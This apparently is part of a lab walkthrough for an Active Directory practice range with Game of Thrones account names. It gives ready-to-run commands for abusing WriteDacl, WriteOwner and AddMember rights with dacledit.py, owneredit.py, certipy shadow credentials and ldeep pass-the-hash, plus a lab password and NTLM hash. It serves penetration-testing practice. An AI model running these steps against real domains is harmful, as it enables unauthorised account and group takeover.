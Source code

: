 ## WriteDacl on User
To exploit writeDacl from Joffrey to Tyron we can use acledit.py
```
git clone https://github.com/ThePorgs/impacket.git
cd impacket 
python3 setup.py install

dacledit.py -action 'read' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion'

#now change the permission to “FullControl” and see the modification
dacledit.py -action 'write' -rights 'FullControl' -principal joffrey.baratheon  -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion'

certipy shadow auto -u joffrey.baratheon@sevenkingdoms.local -p '1killerlion' -account 'tyron.lannister'
```

## Add self on Group
First find the distinguished name
```
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 search '(sAMAccountName=tyron.lannister)' distinguishedName
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 search '(sAMAccountName=Small Council)' distinguishedName
```

Add tyron to Small Council

`ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=Small Council,OU=Crownlands,DC=sevenkingdoms,DC=local"`

See the result
`ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 membersof 'Small Council' `

## AddMember on Group
`ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=DragonStone,OU=Crownlands,DC=sevenkingdoms,DC=local"`

## WriteOwner on Group
```
owneredit.py -action read -target 'kingsguard' -hashes ':b3b3717f7d51b37fb325f7e7d048e998' sevenkingdoms.local/tyron.lannister
owneredit.py -action write -owner 'tyron.lannister' -target 'kingsguard' -hashes ':b3b3717f7d51b37fb325f7e7d048e998' sevenkingdoms.local/tyron.lannister

dacledit.py -action 'write' -rights 'FullControl' -principal tyron.lannister  -target 'kingsguard' 'sevenkingdoms.local'/'tyron.lannister' -hashes ':b3b3717f7d51b37fb325f7e7d048e998'

ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=kingsguard,OU=Crownlands,DC=sevenkingdoms,DC=local"
```
